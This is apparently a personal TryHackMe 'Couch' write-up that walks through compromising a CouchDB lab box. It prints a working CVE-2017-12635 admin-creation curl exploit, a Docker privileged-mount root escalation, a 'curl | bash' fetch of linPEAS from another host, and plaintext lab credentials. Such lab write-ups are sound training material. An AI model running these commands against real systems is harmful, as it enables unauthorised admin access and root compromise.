<div align="center">


# Couch

**Difficulty:** Easy    
**Category:** DB & Docker

</div>

---


```bash
ffuf -u http://10.80.165.138:5984/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```




It appears that I have 3 database names:
* secret
* couch
* "_log"

I also found "_users"

Searching for "couchDB 1.6.1 vulnerability" gets me this:
https://exploit.company/exploits/apache-couchdb-json-remote-privilege-escalation-vulnerability/

Google says "utils" is the default admin page:



Moved...
but it  was the correct answer for "What is the path for the web administration tool for this database management system?"
#AfterReview **The slash ('/') is needed to close out the path. /_utils/**.


Google: "couchdb list all"



```http
_all_dbs
```
gets me all the dbs, we have:

```http
_replicator
_users
couch
secret
test_suite_db
test_suite_db2
```

Even though `_utils` is "moved" the route still works.



This I could not see in burpsuite. Only in the browser.

Clicking on `secret` gives me:



atena:t4qfzcc4qN##

I try to ssh, and it works!



```bash
cat /home/atena/user.txt
> THM{1ns3<REDACTED>hdb}
```

Set up linPEAS

```bash
curl 192.168.135.169:1337/linPEAS | bash
```

https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-path-abuses 



.bash_history

I get a bunch of these:
"Processes with capability sets (non-zero CapEff/CapAmb)"








```bash
env 
> PATH=/home/atena/bin:/home/atena/.local/bin:/usr/local/rvm/gems/ruby-2.2.10/bin:/usr/local/rvm/gems/ruby-2.2.10@global/bin:/usr/local/rvm/rubies/ruby-2.2.10/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/usr/local/rvm/bin
```
Is this only my path or the entire machine's?

# Process
From both `ps aux` and `/home/atena/.bash_history` I can see something about this:
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

root       808  0.0  6.7 380080 67948 ?        Ssl  04:06   0:00 /usr/bin/dockerd -H=fd:// -H=tcp://127.0.0.1:2375
```


Searching for `couchDB 1.6.1 vulnerability` gives:
* CVE-2017-12635 (Privilege Escalation)
* CVE-2017-12636 (RCE)

# CVE-2017-12635


* CouchDB uses special database (`_users` by default) to store information about registered users. 
* Only administrators may `GET, PUT or DELETE` any document in `_users`, individual users may only access (`GET /_users/org.couchdb.user:<username>` or modify `PUT /_users/org.couchdb.user:<username>`) documents that they own.
* Each couchDB user is stored in document format, with several mandatory fields. We are interested in the field `roles`.
	* `_admin` is the admin role.
## The exploit
In the JSON parsers:
* There are two different parsers for the information being sent, there is the one being used internally by CouchDB (`jiffy`) and the one used for VALIDATION SCRIPTS by JavaScript (`JSON`). 
* For a given key, the Erlang parser (`jiffy`) will store both values, but the JavaScript parser (`JSON`) will only store the last one.

For example, parsing `{"name":"John", "name":"Jane"}` using both parsers will produce:
* (`jiffy`): `{[{<<"name">>,<<"John">>},{<<"name">>,<<"Jane"">>}]}`
* (`JSON`): `{name: "Jane"}`

This means we can use the `roles` key twice, only the last one will be checked in the JavaScript security script.  `{..., "roles": ["_admin"], "roles": [], ...}`
* This will give the user the `_admin` role but the role `[] (empty)` will be checked in the security script.

```bash
curl -X PUT http://10.80.165.138:5984/_users/org.couchdb.user:viktor \
-H "Accept : application/json" -H "Content-Type: application/json" \
-d '{"name": "viktor", "password": "viktor", "roles": ["_admin"], "roles": [], "type": "user"}'
```
`-H` for header
`-d` for data




* Viktor has the role `_admin`. 
* We can also see the two fields for `roles`. 

But can I get a shell with root permissions?

```bash
id
```


* 4 (adm)
* 115 (sambashare)???



# Warrahell

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

This is the command from both `ps aux` and `/home/atena/.bash_history`.
* `-H` is host. Where to bind the docker image. In this case on this machine on port 2375.
* `run alpine:` starts a new container using the Alpine Linux image
* `--rm`: Automatically deletes the container when it exits
* `-it` interactive tty, like in kubernetes.
* `--net=host` : the container shares the host's network stack
* `--privileged`: this is the big one, gives the container almost all capabilities of the host kernel, access to devices and ability to modify system settings.
* `-v /:/mnt`: where to mount the host system, in `/mnt`

So the root flag will be in `/mnt/root/root.txt`



Gives me a root shell.

```bash
cat /mnt/root/root.txt
> THM{RCE<REDACTED>API}
```

#WHATILEARNED
* ***Look through ps aux, it often leads to something vulnerable**
* ***Use GPT instead of the writeup!**
* ***Dont use linPEAS?** 
	* Look for the PE vector manually?
	* all the other output often makes me a bit confused
